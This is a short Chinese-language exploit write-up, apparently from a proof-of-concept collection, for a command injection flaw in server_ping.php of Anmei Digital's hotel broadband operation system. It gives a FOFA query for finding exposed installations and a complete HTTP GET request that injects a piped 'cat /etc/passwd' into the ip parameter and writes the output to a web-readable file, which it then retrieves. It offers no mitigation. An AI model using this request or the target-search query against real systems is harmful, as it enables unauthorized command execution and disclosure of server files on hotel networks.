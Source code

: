 # 酒店宽带运营系统server_ping远程命令执行漏洞

# 一、漏洞简介
安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行。

# 二、影响版本
+ 安美数字 酒店宽带运营系统

# 三、资产测绘
+ fofa`"酒店宽带运营"`
+ 特征

![1716733888763-054f1cd7-9341-4200-9146-ac1991441834.png](./img/ttotGXeiX4zpQ9fZ/1716733888763-054f1cd7-9341-4200-9146-ac1991441834-819573.png)

# 四、漏洞复现
```rust
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../stc.txt&id=1 HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04
```

![1716733909837-15f70e37-1a79-41f6-963f-9cf8f0baac48.png](./img/ttotGXeiX4zpQ9fZ/1716733909837-15f70e37-1a79-41f6-963f-9cf8f0baac48-535338.png)

```rust
/stc.txt
```

![1716733930150-c5db087e-acac-4280-be9c-23405a570807.png](./img/ttotGXeiX4zpQ9fZ/1716733930150-c5db087e-acac-4280-be9c-23405a570807-124394.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gvrg0qu31td8ab01>